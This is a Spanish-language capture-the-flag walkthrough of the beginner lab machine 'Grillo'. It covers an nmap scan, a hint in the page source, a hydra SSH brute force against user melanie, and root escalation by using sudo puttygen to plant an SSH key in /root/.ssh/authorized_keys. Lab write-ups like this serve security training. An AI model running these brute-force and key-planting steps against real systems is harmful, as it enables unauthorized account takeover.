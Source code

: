 ```yaml
---
title: 'The Hackers Labs: Grillo'
titleIcon: '/thl.png'
tags: [ 'Linux', 'Fuerza Bruta', 'SSH', 'Puttygen', 'Escalada de Privilegios' ]
categories: [ 'CTF', 'The Hackers Labs', 'Principiante', 'Linux' ]
description: |
  Grillo es una máquina de nivel principiante en The Hackers Labs. A través del reconocimiento inicial y el análisis del servicio web, encontramos una pista útil para continuar. Luego, con algo de fuerza bruta y análisis de privilegios, logramos escalar hasta obtener la flag de root.
---
```


<font size='5'>Grillo</font>

Plataforma: `The Hackers Labs`

Dificultad: <font color='green'>Principiante</font>

🔗 **Link de la máquina:** [https://labs.thehackerslabs.com/machines/43](https://labs.thehackerslabs.com/machines/43)

![Grillo](/thl/principiante/grillo/grillo.png)

# Reconocimiento

En esta etapa inicial realizamos un escaneo de puertos para identificar los servicios activos en la máquina objetivo. Utilizamos `Nmap` con parámetros específicos para lograr un análisis más detallado.

```bash
sudo nmap -p- --open -sS -sCV --min-rate 5000 -Pn -n -oN grillo.txt 192.168.100.7 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-03 19:35 -03
Nmap scan report for 192.168.100.7
Host is up (0.00097s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 9c:e0:78:67:d7:63:23:da:f5:e3:8a:77:00:60:6e:76 (ECDSA)
|_  256 4b:30:12:97:4b:5c:47:11:3c:aa:0b:68:0e:b2:01:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 00:0C:29:51:25:FE (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.13 seconds
```

**Detalles del comando:**

- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sCV`: Usa scripts por defecto y detectar versiones de servicios.
- `--min-rate 5000`: Establece un ritmo mínimo de escaneo.
- `-n`: Desactiva la resolución DNS.
- `-Pn`: Omite la detección de hosts activos.
- `-oN Escaneo`: Guarda los resultados en el archivo "Escaneo".

**Puertos descubiertos:**

- 22/tcp - SSH (OpenSSH 9.2p1)
- 80/tcp - HTTP (Apache 2.4.57)

---

# Exploración Web

Ingresamos al sitio mediante el navegador accediendo a la IP descubierta en el escaneo. Nos encontramos con la página por defecto de Apache en Debian. Revisando el código fuente de la página, encontramos una pista interesante:

> "Cambia la contraseña de ssh por favor melanie."

![Página por defecto](/thl/principiante/grillo/defaul-page.png)

![Comentario](/thl/principiante/grillo/comentario.png)

---

# Explotación

Aplicamos fuerza bruta al servicio SSH usando el usuario `melanie` y el diccionario `rockyou.txt`:

```bash
hydra -l melanie -P /usr/share/wordlists/rockyou.txt 192.168.100.7 ssh -t 64
```

Se encuentra la contraseña válida: **trustno1**

![Hydra](/thl/principiante/grillo/hydra.png)

---

# Escalada de Privilegios

Una vez dentro de la máquina, verificamos permisos con:

```bash
sudo -l
```

Descubrimos que podemos ejecutar `puttygen` como root.

![nopasswd](/thl/principiante/grillo/nopasswd.png)

### Uso de puttygen para escalar

Puttygen se utiliza para generar claves SSH. Generamos una clave para root con los siguientes pasos:

> 💡 *Nota:* Es posible que tengas que crear la carpeta `.ssh` manualmente con `mkdir ~/.ssh` si no existe.

```bash
puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id
puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys
sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/id
sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh
scp melanie@192.168.100.7:/home/melanie/.ssh/id .
ssh -i id root@192.168.100.7
```

Primero, se genera una nueva clave SSH RSA de 2048 bits y se guarda en ~/.ssh/id. Luego, se extrae la clave pública desde ese archivo y se agrega al final de ~/.ssh/authorized_keys para habilitar el acceso por clave. Posteriormente, la clave privada se transfiere al directorio seguro /root/.ssh/, y la pública se exporta en formato OpenSSH a /root/.ssh/authorized_keys, permitiendo así la autenticación como root. Finalmente, se copia la clave privada desde la máquina remota a tu entorno local mediante scp, y se establece la conexión SSH con el usuario root usando:

Con esto obtenemos acceso completo como root.

---

# 🎉 ¡Root conseguido!

![root](/thl/principiante/grillo/root.png)

Hemos completado exitosamente la máquina **Grillo** de TheHackersLabs.
